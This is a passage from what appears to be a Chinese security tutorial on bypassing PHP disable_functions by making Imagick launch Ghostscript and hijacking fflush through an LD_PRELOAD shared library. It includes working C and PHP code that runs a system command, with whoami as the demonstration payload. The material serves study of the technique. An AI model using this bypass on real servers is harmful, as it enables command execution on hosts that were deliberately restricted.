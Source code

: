 `Ghostscript`是一套建基于`Adobe、PostScript`及可移植文档格式（PDF）的页面描述语言等而编译成的免费软件。<br>`ImageMagick`无法直接实现pdf文档到图片的转换，需要借助于`gostscript`软件包<br>
这样我们就很自然的想到通过`Imagick`提供的某些API需要调用`Ghostscript`,这样肯定会生成新的进程，就能通过`LD_PRELOAD`加载恶意的动态共享库，实现绕过<br>
从官网文档中可以知道使用`Imagic`处理如下文件后缀时会调用`Ghostscript`
<li>[ ] [https://imagemagick.org/script/formats.php](https://imagemagick.org/script/formats.php)
<pre><code class="hljs nginx">EPI  EPS  EPS2 EPS3 EPSF EPSI EPT PDF PS PS2 PS3
</code></pre>
</li>
可以直接利用Imagic类构造方法来实现：

```
&lt;?php
$img = new Imagick("1.pdf");
//注意1.pdf必须是真实存在的
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d016f3b2ed4fd85e.png)

发现会调用多个进程，使用`strace`进行跟踪，查看其调用的具体的API(以`/usr/bin/gs`为例)：

[![](https://p4.ssl.qhimg.com/t012a9f0498e127b9bc.png)](https://p4.ssl.qhimg.com/t012a9f0498e127b9bc.png)

并没有调用之前分析的`getuid`函数，所以需要重新选取新的系统函数进行同名编写，此处选择`fflush函数`，查看`fflush`文档可知，该传入变量是可以为空的：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t014c7c58624547c014.png)

因此可以通过编写`fflsh`进行绕过:

```
#include&lt;stdlib.h&gt;
void evil_code()`{`
    system("whoami");
`}`

int fflush()`{`
    if(getenv("LD_PRELOAD") == NULL)`{`
        return 0;
    `}`
    unsetenv("LD_PRELOAD");
    evil_code();
`}`
```

```
&lt;?php
system("whoami");
putenv("LD_PRELOAD=/home/php_learn/fflush_bypass.so");
$img = new Imagick("1.pdf");
```

发现的确通过Imagick的构造方法进行绕过system
